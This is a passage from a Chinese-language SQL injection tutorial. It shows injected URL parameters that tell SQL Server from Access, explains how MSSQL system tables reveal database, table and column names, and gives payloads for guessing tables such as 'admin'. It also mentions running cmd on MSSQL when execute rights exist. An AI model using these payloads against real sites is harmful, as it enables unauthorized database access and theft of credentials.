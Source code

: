 ACCESS的系统表是msysobjects,且在WEB环境下没有访问权限，而SQL-SERVER的系统表是sysobjects,在WEB环境下有访问权限。对于以下两条语句：

①HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(*) from sysobjects)>0

②HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(*) from msysobjects)>0

若数据库是SQL-SERVE，则第一条，abc.asp一定运行正常，第二条则异常；若是ACCESS则两条都会异常。

3、 MSSQL三个关键系统表

sysdatabases系统表：Microsoft SQL Server 上的每个数据库在表中占一行。
最初安装 SQL Server 时，sysdatabases 包含 master、model、msdb、mssqlweb 
和 tempdb 数据库的项。该表只存储在 master 数据库中。 
这个表保存在master数据库中，这个表中保存的是什么信息呢？
这个非常重要。他是 保存了所有的库名,以及库的ID和一些相关信息。

这里我把对于我们有用的字段名称和相关说明给大家列出来。

```
name //表示库的名字。
dbid //表示库的ID，dbid从1到5是系统的。分别是：master、model、msdb、mssqlweb、tempdb 这五个库。用select * from master.dbo.sysdatabases 就可以查询出所有的库名。
Sysobjects：SQL-SERVER的每个数据库内都有此系统表，它存放该数据库内创建的所有对象，如约束、默认值、日志、规则、存储过程等，每个对象在表中占一行。以下是此系统表的字段名称和相关说明。
Name，id，xtype，uid，status：分别是对象名，对象ID，对象类型，所有者对象的用户ID,对象状态。
对象类型(xtype)。可以是下列对象类型中的一种：
C = CHECK 约束
D = 默认值或 DEFAULT 约束
F = FOREIGN KEY 约束
L = 日志
FN = 标量函数
IF = 内嵌表函数
P = 存储过程
PK = PRIMARY KEY 约束（类型是 K）
RF = 复制筛选存储过程
S = 系统表
TF = 表函数
TR = 触发器
U = 用户表
UQ = UNIQUE 约束（类型是 K）
V = 视图
X = 扩展存储过程
当xtype='U' and status>0代表是用户建立的表，对象名就是表名，对象ID就是表的ID值。
用: select * from ChouYFD.dbo.sysobjects where xtype='U' and status>0 就可以列出库ChouYFD中所有的用户建立的表名。
syscolumns ：每个表和视图中的每列在表中占一行，存储过程中的每个参数在表中也占一行。该表位于每个数据库中。主要字段有：
name ，id， colid ：分别是字段名称，表ID号，字段ID号，其中的 ID 是 刚上我们用sysobjects得到的表的ID号。
用: select * from ChouYFD.dbo.syscolumns where id=123456789 得到ChouYFD这个库中，表的ID是123456789中的所有字段列表。
```

### 猜测表或者直接运行cmd
判断了数据库的类型之后,
如果是musql的话,就可以进猜表了,
如果是mssql,并且有执行权限的话,就可以直接运行cmd命令了.

#### mysql的猜表
1 猜表一般的表的名称无非是admin adminuser user pass password 等.. 
```
and 0<>(select count(*) from *) 
and 0<>(select count(*) from admin) ---判断是否存在admin这张表
```
